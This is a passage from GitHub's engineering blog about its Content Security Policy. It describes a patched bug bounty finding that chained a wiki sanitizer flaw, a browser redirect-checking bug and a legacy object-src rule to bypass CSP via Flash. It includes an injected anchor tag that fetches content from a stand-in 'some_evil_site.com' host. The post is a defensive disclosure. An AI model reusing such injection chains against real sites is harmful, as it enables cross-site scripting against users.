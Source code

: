 #### `object-src`[](https://github.blog/engineering/platform-security/githubs-csp-journey/#object-src)

We previously allowed `self` for object and embed tags. The sole reason for this was a legacy reliance of sourcing [ZeroClipboard](https://github.com/zeroclipboard/zeroclipboard) from GitHub.com. We had since moved that asset to our CDN and the `self` source was no longer needed. However, this legacy directive wasn’t removed from our policy and, as with all things related to “legacy” and “security,” a bounty hunter found [a way to exploit it](https://bounty.github.com/researchers/adob.html#persistent-cross-site-scripting--with-csp-bypass--20140210). This was a super interesting Bug Bounty submission that left us scratching our heads for a few minutes. The attack leveraged a content injection bug as well as a browser bug in Chrome to bypass CSP and gain JavaScript execution. The attack worked like this:

First, an attacker creates a Wiki entry with the following content:

```

<a href="https://some_evil_site.com/xss/github/embed.php" class="choose_plan js-domain">domain</div>
```

One of the core features on GitHub is rendering user-supplied HTML (often via Markdown) in various locations (Issues, Pull Requests, Comments). All of these locations sanitize the resulting HTML to a safe subset to protect against arbitrary HTML injection. However, we had an oversight in our Wiki HTML sanitization filter that allowed setting an arbitrary `class` attribute. The combination of setting the class to  
`choose_plan` and `js-domain` triggered some automatic behavior in our JavaScript to fetch the `href` associated with the element and insert the response into the DOM. The resulting HTML was still subject to CSP and would not allow executing arbitrary JavaScript. It did however allow an attacker to insert arbitrary HTML into the DOM. The injected content in the proof of concept was the following:

```
https://github.com/test-user/test-repo/raw/master/script.png
```

The sourced URL corresponds to a “raw request” for a file in a user’s repository. A raw request for a non-binary file returns the file with a `content-type` of `text/plain`, and is displayed in the user’s browser. As was hinted at previously, user-controlled content in combination with content sniffing often leads to unexpected behavior. We were well aware that serving user-controlled content on a GitHub.com domain would increase the chances of script execution on that domain. For that very reason, we serve all responses to raw requests on their own domain. A request to `https://github.com/test-user/test-repo/raw/master/script.png` will result in a redirect to `https://raw.githubusercontent.com/test-user/test-repo/master/script.png`. And, `raw.githubusercontent.com` wasn’t on our `object-src` list. So, how was the proof of concept able to get Flash to load and execute?

After rereading the submission, doing a bit of researching, and brewing some extra coffee, we came across [this WebKit bug](https://bugs.webkit.org/show_bug.cgi?id=97030). Browsers are required to verify that all requests, including those resulting from redirects, are allowed by the CSP policy for the page. However, some browsers were only checking the domain from the first request against the source list in our CSP policy. Since we had `self` in our source list, the embed was allowed. Combining the Flash execution with the injected HTML (specifically the `allowscriptaccess=always` attribute) resulted in a full CSP bypass. The submission earned [@adob](https://bounty.github.com/researchers/adob.html) a gold star and further cemented his placement at the [top of the leaderboard](https://bounty.github.com/#leaderboard). We now restrict object embeds to our CDN, and hope to block all object embeds once more broad support for the [clipboard API](https://www.w3.org/TR/clipboard-apis/) is in place.
